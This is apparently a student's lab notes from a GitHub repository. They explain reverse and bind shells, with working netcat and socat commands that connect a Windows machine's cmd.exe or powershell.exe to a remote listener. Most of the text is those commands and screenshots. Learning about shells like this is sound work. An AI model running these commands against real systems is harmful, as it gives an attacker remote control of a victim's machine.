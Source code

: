 # Netcat

Before moving ahead lets understand the basic difference between Reverse shell and Bind shell

The main difference that in rev shell and bind shell is that in rev shell you establish
the listner in your machine whereas in the bind shell the compromisded machine will establish the listener.

In to get a clear idea lets perform the task.. and see whats the real difference is


The one that we created in the prev task was a webshell :0

**Netcat For REV-SHELL**

Open the cmd using the administrators permissions now simply type the command :

    nc <ip> port -e "cmd.exe"

Before doing so make sure to open the listner in your own machine using `nc -lnvp <port>`

There we go..


![Screenshot 2023-11-18 135745](https://github.com/Theincognitomode/What-the-shell/assets/73027020/36fdbb08-7baa-4453-b088-03b523f62739)


This is a NETCAT reverse shell..


Now lets create a **Bind shell**

![Screenshot 2023-11-18 140805](https://github.com/Theincognitomode/What-the-shell/assets/73027020/5a439b6e-c16b-45e2-9c5a-5564b9022c0f)


Now you can see the difference 

# SOCAT


- Socat rev-shell 
We will be using this command for listner :(in our machine)

      socat TCP-L:<PORT> -

Go to windows and execute this command:

    socat TCP:<LOCAL IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

![Screenshot 2023-11-18 142047](https://github.com/Theincognitomode/What-the-shell/assets/73027020/fc6aadc5-8fa7-4438-af13-3d9dfdb31e85)





There we gooo!!

- Socat bind shell

1. Commad:(in the compromised machine)

       socat TCP-L:<PORT> EXEC:powershell.exe,pipes

2. In your machine

       socat TCP:<LOCAL IP>:<LOCAL-PORT> -


![Screenshot 2023-11-18 142818](https://github.com/Theincognitomode/What-the-shell/assets/73027020/2ef37e89-da21-42d0-bf68-13a454a5f17a)


